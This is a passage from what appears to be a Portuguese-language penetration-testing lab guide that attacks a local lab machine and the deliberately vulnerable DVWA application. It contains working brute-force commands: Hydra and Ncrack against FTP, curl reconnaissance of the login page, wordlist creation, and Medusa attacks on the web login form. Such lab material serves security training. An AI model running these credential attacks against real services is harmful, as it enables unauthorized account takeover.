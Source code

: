 ### 4. Comandos Alternativos para FTP
```bash
# Usando Hydra como alternativa
hydra -L users_ftp.txt -P pass_ftp.txt ftp://192.168.56.101

# Usando Ncrack
ncrack -U users_ftp.txt -P pass_ftp.txt ftp://192.168.56.101
```

---

## 🌐 Ataque em Aplicação Web (DVWA)

### 1. Reconhecimento do DVWA
```bash
# Acessar via navegador ou curl
curl -I http://192.168.56.101/dvwa/

# Verificar se a página de login está acessível
curl http://192.168.56.101/dvwa/login.php | head -20

# Identificar parâmetros do formulário
curl -s http://192.168.56.101/dvwa/login.php | grep -E 'name=|method='
```

### 2. Criação de Wordlists para Web
```bash
# Usuários comuns para web
echo -e 'admin\nadministrator\nroot\nuser\ntest\nguest' > users_web.txt

# Senhas comuns para web
echo -e 'password\n123456\nadmin\nletmein\nqwerty\nabc123' > pass_web.txt

# Combinar credenciais conhecidas do DVWA
echo -e 'admin\npablo\n1337\ngordonb\nsmithy' > dvwa_users.txt
echo -e 'password\nletmein\ncharley\nabc123\npassword' > dvwa_pass.txt
```

### 3. Ataque com Medusa no DVWA
```bash
# Ataque básico ao formulário de login
medusa -h 192.168.56.101 -U users_web.txt -P pass_web.txt -M http \
  -m FORM:"/dvwa/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"

# Ataque com threads e parada no sucesso
medusa -h 192.168.56.101 -U dvwa_users.txt -P dvwa_pass.txt -M http \
  -m FORM:"/dvwa/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login" \
  -t 6 -f

# Ataque verbose para debugging
medusa -h 192.168.56.101 -u admin -P pass_web.txt -M http \
  -m FORM:"/dvwa/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login" \
  -v 6
```
